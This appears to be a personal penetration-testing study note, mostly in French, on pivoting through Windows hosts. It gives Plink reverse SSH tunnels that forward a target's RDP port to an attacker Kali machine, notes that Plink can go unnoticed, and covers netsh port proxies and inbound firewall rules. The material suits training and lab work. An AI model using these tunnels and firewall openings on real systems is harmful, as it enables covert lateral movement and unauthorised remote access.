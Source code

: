 OpenSSH client vient avec depuis version 1803 (Avril 2018 Update)
Est sur-demande depuis 1709 (Creators Update)
scp.exe,sftp.exe, ssh.exe, along with other ssh-* utilities in %systemdrive%\Windows\System32\OpenSSH location by default.

# OpenSSH (ssh.exe)
Disponible?: ```where ssh```
Utiliser les mêmes commandes que dans SSH

# Plink
Populaire avec les admins, peut passer inaperçu. 
Similaire à OpenSSH, mais pas de port forwarding dynamique distant.
/usr/share/windows-resources/binaries/plink.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

notre machine linux sur port 9833 vers 3389 sur la machine windows.
Si pas de TTY

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![[Pasted image 20240118092933.png]]

# Port forward et pare-feux
## Netsh (natif)
Requière admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Savoir si fonctionne: 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
netstat -anp TCP | find "2222"
netsh interface portproxy show all
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Pour ouvrir le pare-feu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Supprime la règle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Pour supprimer le port forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Powershell cmdlet
Seulement pour ouvrir le pare-feu
New-NetFirewallRule 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New-NetFirewallRule -DisplayName "allow me in" -Direction Inbound -protocol TCP -localport 2222 -EdgeTraversalPolicy Allow -Action Allow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Disable-NetFirewallRule
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Disable-NetFirewallRule -DisplayName "allow me in"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
